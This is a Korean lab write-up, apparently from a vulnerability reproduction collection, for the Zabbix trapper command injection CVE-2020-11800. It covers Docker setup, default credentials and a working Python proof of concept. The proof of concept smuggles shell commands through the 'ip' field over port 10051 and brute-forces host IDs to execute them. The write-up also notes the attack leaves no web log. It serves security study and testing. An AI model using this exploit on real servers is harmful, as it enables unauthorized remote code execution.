






# Zabbix 서버 트랩퍼 명령 주입 취약점(CVE-2020-11800)

**Contributors**

-   [박철준(@cheoljun99)]

## 요약
Zabbix는 분산 시스템 모니터링 및 네트워크 모니터링 기능을 제공하는 WEB 인터페이스 기반의 엔터프라이즈급 오픈 소스 솔루션입니다.

CVE-2017-2824 Zabbix 버전 2.4.x의 트랩퍼 명령 기능에는 원격 코드 실행 취약점이 있습니다.특정 데이터 패킷이 명령 주입을 유발한 다음 원격으로 코드를 실행할 수 있습니다. 공격자는 취약점을 트리거하기 위해 Zabbix 프록시에서 요청을 시작할 수 있습니다.
CVE-2020-11800은 CVE-2017-2824에 대한 패치 우회입니다. 서버 측 트랩퍼 명령 기능에 코드 실행 취약점이 있으며, 복구 패치가 불완전하여 IPv6를 사용하여 임의 명령을 우회하고 주입할 수 있습니다.

참고 링크：

- https://xz.aliyun.com/t/8991

## 환경설정

다음 명령을 실행하여 웹 측, 서버 측, 1 에이전트 및 Mysql 데이터베이스를 포함한 전체 Zabbix 환경을 시작하십시오.

```
docker compose up -d
```

명령 실행 후 `docker compose ps`를 실행하여 모든 컨테이너가 성공적으로 시작되었는지 확인하고, 그렇지 않은 경우 `docker compose up -d`를 다시 실행하시오.

해당 취약점을 악용하기 위해서는 서버에서 자동 등록 기능을 활성화해야 하며, 활성화 방법은 아래에 제시합니다.



로그인하려면 ID: admin, PW: zabbix 를 입력하세요.


Configuration 탭에서 하위 탭인 Actions를 클릭하고 이벤트 소스를 Auto registration으로 조정한 다음 create를 하여 Add host 오퍼레이션을 만듭니다.

## CVE-2017-2824에서 취약점 패치한 후 취약점 재발(우회)

CVE-2017-2824와 CVE-2020-11800은 모두 동일한 취약점이므로 전자는 ipv4 splicing 명령을 사용하여 주입하고 후자는 ipv6 splicing 명령을 사용하여 주입하는 원리는 동일합니다.：

```python
import sys
import socket
import json
import sys
def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data
target = sys.argv[1]
#print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))
# CVE-2020-11800은 아래를 사용하십시오
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)

```

다음 결과가 표시되면 명령이 성공적으로 실행된 것입니다.


poc 파일을 연속하여 실행하면 해당 랜덤한 확률로 해당 빨간 네모칸 과정이 실행됩니다.


이후 서버 bash를 통해 tmp 폴더를 확인하면 success2 파일이 생성됨을 알 수 있습니다.


성공적으로 실행된 명령은 콘솔에도 기록됩니다.


해당 취약점은 소켓을 통해 생성되며 http 프로토콜을 사용하지 않으므로 웹 로그에 기록이 남지 않습니다.
